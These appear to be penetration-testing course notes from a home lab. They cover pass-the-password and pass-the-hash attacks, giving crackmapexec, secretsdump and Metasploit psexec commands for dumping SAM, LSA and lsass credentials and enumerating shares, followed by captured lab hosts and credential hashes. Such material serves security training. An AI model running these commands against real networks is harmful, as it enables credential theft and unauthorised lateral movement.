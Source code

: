 # I. Pass Attacks Overview

Pass attacks are a type of cyber attack where an attacker steals the hashed password of a user in an attempt to authenticate as that user without needing to know the plaintext password.

So, if we manage to crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks.

This attack can be conducted in a variety of ways, make sure all machines are turned on.

- **Pass the Password.** `crackmapexec smb <IP/CIDR> -u <user> -d <domain> -p <pass>`.

![passthepassword1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/914fecbc-c4cf-475e-b15e-1529bd3a3d0b)

- **Grab the Local Hashes with Metasploit.** `windows/smb/psexec` **OR using secretsdump.py.** `secretsdump.py <DOMAIN>/<user>:<pass>@DOMAIN IP`

**Pass the Hash.** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth`

![passthehash1](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/4c5ca120-8722-4ec0-abab-3d4df69b2d10)

- **Dump valuable data** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth --sam`.

![passthehash2](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/835e9fa7-8e40-47e5-83c0-854e77bda835)

- E**numerate shares** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth --shares`.

![passthehash3](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/550ed0a8-9828-48fe-83b9-fce83f052007)

- **Dump LSA (Local Security Authority).** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth --lsa`.

![passthehash4](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/42b51df5-6b49-434f-b1be-b022b741deb8)

- **Check for different modules.** `crackmapexec smb -L`.
- **Dump lsass to get credentials in real-time.** `crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth -M lsassy`.
- **Access the Crackmapexec database (cmedb).**
    
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ cmedb 
    cmedb (default)(smb) > help
    
    Documented commands (type help <topic>):
    ========================================
    clear_database  creds  dpapi  exit  export  groups  help  hosts  shares  wcc
    
    Undocumented commands:
    ======================
    back  import
    
    cmedb (default)(smb) > hosts
    
    +Hosts---+-----------+-----------+--------------+----------------+--------------------------+-------+---------+---------+-----------+------------+
    | HostID | Admins    | IP        | Hostname     | Domain         | OS                       | SMBv1 | Signing | Spooler | Zerologon | PetitPotam |
    +--------+-----------+-----------+--------------+----------------+--------------------------+-------+---------+---------+-----------+------------+
    | 1      | 0 Cred(s) | 10.0.2.8  | STRAWHATS-PC | ONEPIECE.local | Windows 10.0 Build 17763 | False | True    | None    | None      | None       |
    | 2      | 2 Cred(s) | 10.0.2.11 | FRANKY       | ONEPIECE.local | Windows 10.0 Build 19041 | False | False   | None    | None      | None       |
    | 3      | 0 Cred(s) | 10.0.2.2  | WIZZLE       | Wizzle         | Windows 10.0 Build 19041 | False | False   | None    | None      | None       |
    | 4      | 2 Cred(s) | 10.0.2.10 | USOPP        | ONEPIECE.local | Windows 10.0 Build 19041 | False | False   | None    | None      | None       |
    +--------+-----------+-----------+--------------+----------------+--------------------------+-------+---------+---------+-----------+------------+
    
    cmedb (default)(smb) > creds
    
    +Credentials---------+-----------+----------------+--------------------+-------------------------------------------------------------------+
    | CredID | Admin On  | CredType  | Domain         | UserName           | Password                                                          |
    +--------+-----------+-----------+----------------+--------------------+-------------------------------------------------------------------+
    | 1      | 2 Host(s) | plaintext | ONEPIECE.local | Franky             | Password1                                                         |
    | 2      | 1 Host(s) | hash      | USOPP          | administrator      | 7facdc498ed1680c4fd1448319a8c04f                                  |
    | 3      | 1 Host(s) | hash      | FRANKY         | administrator      | 7facdc498ed1680c4fd1448319a8c04f                                  |
    | 4      | 0 Host(s) | hash      | FRANKY         | Guest              | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 5      | 0 Host(s) | hash      | FRANKY         | DefaultAccount     | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 6      | 0 Host(s) | hash      | USOPP          | Guest              | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 7      | 0 Host(s) | hash      | FRANKY         | WDAGUtilityAccount | aad3b435b51404eeaad3b435b51404ee:4320ef599b0861e59eabb8b16ccf520f |
    | 8      | 0 Host(s) | hash      | USOPP          | DefaultAccount     | aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 |
    | 9      | 0 Host(s) | hash      | FRANKY         | Suuuper            | aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b |
    | 10     | 0 Host(s) | hash      | USOPP          | WDAGUtilityAccount | aad3b435b51404eeaad3b435b51404ee:296a91fa7ca4e02965019fa6b69765dd |
    | 11     | 0 Host(s) | hash      | USOPP          | Sogeking           | aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0 |
    +--------+-----------+-----------+----------------+--------------------+-------------------------------------------------------------------+
    
    ```
